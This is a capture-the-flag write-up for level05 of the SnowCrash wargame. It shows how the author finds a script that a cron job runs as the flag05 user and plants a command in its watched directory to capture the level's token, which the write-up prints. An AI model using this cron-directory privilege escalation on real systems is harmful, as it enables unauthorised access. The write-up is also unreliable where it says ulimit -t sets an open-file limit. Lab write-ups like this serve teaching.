 For this one, I have no clue in the home of the user `level05`.

I do a quick check in the system, looking for something to be exploited.

I first ran:

```bash
level05@SnowCrash:~$ find / -user level05 -exec readlink -f {} \; 2>/dev/null
```

But the output of this one is too long, I retry with another user:

```bash
level05@SnowCrash:~$ find / -user flag05 -exec readlink -f {} \; 2>/dev/null
```

The output is the following:

```bash
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

Here we are ! A script to exploit:

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

The script runs for each file in `/opt/openarenaserver/` directory.
It create a subshell, set its open file limit to 5 and execute the file.
And it finish by removing the file.

So let's try to put a simple script in this directory:

```bash
echo 'getflag' > /opt/openarenaserver/getflag
```

Then activate it with:

```bash
level05@SnowCrash:~$ sh /usr/sbin/openarenaserver
```

But the output is the following:

```
+ getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

So I'm definitely on the good way. But I won't reach the next level that easy.

---

There is something I didn't notice at first glance.

```bash
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

The script is owned by `flag05` with the execution rights enabled.

As I have no way to impersonate the `flag05` user, there must be a cron file that runs periodically to execute the `openarenaserver` script.

```bash
echo "getflag > /tmp/hackflag05" > /opt/openarenaserver/getflag
```

Wait a moment and see that the getflag file has been consumed from the /opt/openarenaserver directory.

The flag is now in the /tmp/hackflag05 file:

```
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

